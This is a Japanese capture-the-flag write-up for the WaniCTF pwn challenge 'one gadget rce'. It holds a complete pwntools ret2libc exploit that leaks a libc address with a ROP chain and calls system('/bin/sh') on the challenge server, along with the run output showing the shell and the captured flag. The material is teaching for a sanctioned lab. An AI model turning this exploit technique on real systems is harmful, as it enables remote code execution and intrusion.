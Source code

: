 # one gadget rce:PWN:113pts
nc rce.wanictf.org 9007  
- ROPを使ったlibcのロードアドレスのリークを理解する必要があります。  
- libc上にあるone gadget RCE (Remote Code Execution)の探し方と呼び出し方を理解する必要があります。  
- one_gadget libc-2.27.so  

使用ツール例  
- [pwntools](https://github.com/wani-hackase/memo-setup-pwn-utils#pwntools)  
- [objdump](https://github.com/wani-hackase/memo-setup-pwn-utils#objdump)  
- [ROPgadget](https://github.com/wani-hackase/memo-setup-pwn-utils#ROPgadget)  
- [one_gadget](https://github.com/wani-hackase/memo-setup-pwn-utils#one_gadget)  

セキュリティ保護  
- Partial RELocation ReadOnly (RELRO)  
- Stack Smash Protection (SSP)無効  
- No eXecute bit(NX)有効  
- Position Independent Executable (PIE)無効  

[pwn07](pwn07)　　　　[pwn07.c](pwn07.c)　　　　[libc-2.27.so](libc-2.27.so)  

# Solution
ret2libcを行えば良さそうだ。  
以下のpwnpwn07.pyで行う。  
```python:pwnpwn07.py
from pwn import *

elf = ELF('./pwn07')
libc = ELF('./libc-2.27.so')
io = remote("rop.wanictf.org", 9007)
#io = process(elf.path)
rop = ROP(elf)

puts_plt = elf.plt['puts']
main = elf.symbols['main']
libc_start_main = elf.symbols['__libc_start_main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(puts_plt))
log.info("__libc_start_main: " + hex(libc_start_main))
log.info("pop rdi gadget: " + hex(pop_rdi))

base = b'A' * 22
io.recvline()
payload = base + p64(pop_rdi) + p64(libc_start_main) + p64(puts_plt) + p64(main)
io.sendline(payload)
for i in range(12):
    io.recvline()
recieved = io.recvline().strip().replace(b"\n", b"")
io.recvline()

leak = u64(recieved.ljust(8, b'\x00'))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))
libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))

binsh = next(libc.search(b'/bin/sh'))
system = libc.sym['system']

log.info("/bin/sh %s " % hex(binsh))
log.info("system %s " % hex(system))

payload = base + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
io.sendline(payload)
io.interactive()
```
実行する。  
```bash
$ python pwnpwn07.py
[*] '/pwn07'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to rop.wanictf.org on port 9007: Done
[*] Loaded 14 cached gadgets for './pwn07'
[*] puts@plt: 0x400650
[*] __libc_start_main: 0x600ff0
[*] pop rdi gadget: 0x400a13
[*] Leaked libc address,  __libc_start_main: 0x7fd35b407b10
[*] Address of libc 0x7fd35b3e6000
[*] /bin/sh 0x7fd35b599e1a
[*] system 0x7fd35b435550
[*] Switching to interactive mode
What's your name?: hello AAAAAAAAAA7!

***start stack dump***
0x7ffc837c4990: 0x41414141414149b0 <- rsp
0x7ffc837c4998: 0x0000003741414141
0x7ffc837c49a0: 0x4141414141414141 <- rbp
0x7ffc837c49a8: 0x0000000000400626 <- return address
0x7ffc837c49b0: 0x0000000000400a13
0x7ffc837c49b8: 0x00007fd35b599e1a
0x7ffc837c49c0: 0x00007fd35b435550
***end stack dump***

$ ls
chall
flag.txt
redir.sh
$ cat flag.txt
FLAG{mem0ry-1eak-4nd-0ne-gadget-rem0te-ce}
$
[*] Interrupted
```
flagが得られた。  

## FLAG{mem0ry-1eak-4nd-0ne-gadget-rem0te-ce}